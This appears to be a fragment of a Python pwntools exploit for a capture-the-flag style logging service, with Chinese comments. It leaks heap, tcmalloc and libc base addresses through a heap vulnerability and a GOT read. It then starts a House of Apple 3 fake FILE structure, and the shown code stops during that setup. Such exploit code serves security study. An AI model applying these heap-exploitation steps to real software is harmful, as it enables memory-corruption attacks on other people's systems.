 ```py

	new_log(48, b'a' * (48 - 11) )
	heap_addr: int = u64(display_log()[-8:])
	heap_base_addr: int = int(submit_task(heap_addr), 16)

	print(f'堆地址: { hex(heap_addr) }')
	print(f'堆基地址: { hex(heap_base_addr) }')

	'''
	通过堆漏洞获取 tcmalloc 地址
	'''
	new_log2(208, b'a' * (208 - 11))
	new_log2(48, b'-' * 3 +  p64(heap_base_addr + 0x50))
	new_log_stdout2(48)
	display_log2()

	new_log2(48, b'useless chunk')
	new_log2(48, b"a" * (8 + 5) + b"adrlibc:")
	
	display_log2()
	display_log2()
	p.recvuntil(b'adrlibc:')
	
	tcmalloc_addr = u64(p.recv(8))
	tcmalloc_base_addr = tcmalloc_addr - 0x1c9090 - 0x11ea0
	lib_tcmalloc.address = tcmalloc_base_addr
	print(f'tcmalloc地址: { hex(tcmalloc_addr) }')
	print(f'tcmalloc基地址: { hex(tcmalloc_base_addr) }')
	
	'''
	通过 tcmalloc got 中的 pthread_key_create 函数获取 libc 基址
	'''
	new_log2(251, b'a' * (251 - 12) + b'\n')
	new_log2(64, b'-' * 5 + p64(lib_tcmalloc.got['pthread_key_create'] - 0x10))
	new_log_stdout2(64)
	display_log2()
	
	new_log2(64, b'useless chunk')
	new_log2(64, b'adfc:')
	
	display_log2()
	display_log2()
	display_log2()
	p.recvuntil(b'adfc:')
	
	pkc_addr = u64(p.recv(8))
	libc_base_addr = pkc_addr - lib_c.symbols['pthread_key_create'] 
	lib_c.address = libc_base_addr
	print(f'pthread_key_create函数地址: { hex(pkc_addr) }')
	print(f'libc地址: { hex(libc_base_addr) }')
	
	'''
	House of Apple 3
	预留一个伪造的 File 结构空间
	向该空间中写入 File 结构
	'''
	new_log2(0x160, b'FileAddr:'.rjust((0x160 - 11),b'd'))
	display_log2()
	display_log2()
	display_log2()
	
	p.recvuntil(b'FileAddr:')
	file_addr = u64(p.recv(8)) - 0x160 + 0x10
```